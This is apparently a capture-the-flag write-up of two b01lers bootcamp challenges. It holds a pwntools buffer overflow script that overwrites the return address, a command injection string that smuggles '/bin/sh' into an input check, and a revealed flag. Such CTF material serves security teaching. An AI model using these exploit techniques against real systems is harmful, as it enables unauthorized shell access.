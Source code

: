 ### Description:
    Would you still have broken it if I hadn't said anything?
    nc chal.ctf.b01lers.com 1015

### Solution:

I am the third people to solve this challenge, another buffer overflow challenge.
in this challenge, we have to overwrite %rip to `0x401196`

{% highlight python %}
#r = process("theoracle-ef25f23d8a2218004732f71bfbfa1267")
r = remote("chal.ctf.b01lers.com", 1015)
p = "A" * 24
p += p64(0x401196)
r.sendline(p)
r.interactive()
{% endhighlight %}

FLAG: flag{Be1ng_th3_1_is_JusT_l1ke_b3ing_in_l0v3}

<h1 id="WhiteRabbit">White Rabbit</h1>

### Description:

    Follow the white rabbit...
    nc chal.ctf.b01lers.com 1013

### Solution:

in this challenge, we can't set "flag" as our input 


<img src="/images/b01lersCTFbootcamp/whiterabbit.png"/>

but we can inject a bash command to get a shell

{% highlight python %}

from pwn import *
r = remote("chal.ctf.b01lers.com",1013)
x = ''' ']||/bin/sh;[' '''
r.sendline(x)
r.interactive()

{% endhighlight %}
